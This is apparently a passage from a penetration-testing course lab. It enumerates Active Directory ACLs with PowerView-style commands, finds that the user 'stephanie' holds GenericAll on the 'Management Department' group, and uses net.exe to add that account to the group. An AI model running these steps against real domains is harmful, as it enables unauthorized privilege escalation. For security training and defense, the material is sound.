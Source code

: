 Although we should enumerate all objects the domain, let's start with the _Management Department_ group for now. We will check if any users have GenericAll permissions.

To generate clean and manageable output, we'll use the PowerShell **-eq** flag to filter the **ActiveDirectoryRights** property, only displaying the values that equal **GenericAll**. We'll then pipe the results into **select**, only displaying the **SecurityIdentifier** and **ActiveDirectoryRights** properties:

```
PS C:\Tools> Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

SecurityIdentifier                            ActiveDirectoryRights
------------------                            ---------------------
S-1-5-21-1987370270-658905905-1781884369-512             GenericAll
S-1-5-21-1987370270-658905905-1781884369-1104            GenericAll
S-1-5-32-548                                             GenericAll
S-1-5-18                                                 GenericAll
S-1-5-21-1987370270-658905905-1781884369-519             GenericAll
```

> Listing 61 - Enumerating ACLs for the Management Group

In this case, we have a total of five objects that have the GenericAll permission on the _Management Department_ object. To make sense of this, let's convert all the SIDs into actual names:

```
PS C:\Tools> "S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
CORP\Domain Admins
CORP\stephanie
BUILTIN\Account Operators
Local System
CORP\Enterprise Admins
```

> Listing 62 - Converting all SIDs that have GenericAll permission on the Management Group

The first SID belongs to the _Domain Admins_ group and the GenericAll permission comes as no surprise since _Domain Admins_ have the highest privilege possible in the domain. What's interesting, however, is to find _stephanie_ in this list. Typically, a regular domain user should not have GenericAll permissions on other objects in AD, so this may be a misconfiguration.

This finding is significant and indicates that _stephanie_ is a powerful account.

When we enumerated the _Management Group_, we discovered that _jen_ was its only member. As an experiment to show the power of misconfigured object permissions, let's try to use our permissions as _stephanie_ to add ourselves to this group with net.exe.

```
PS C:\Tools> net group "Management Department" stephanie /add /domain
The request will be processed at a domain controller for domain corp.com.

The command completed successfully.
```
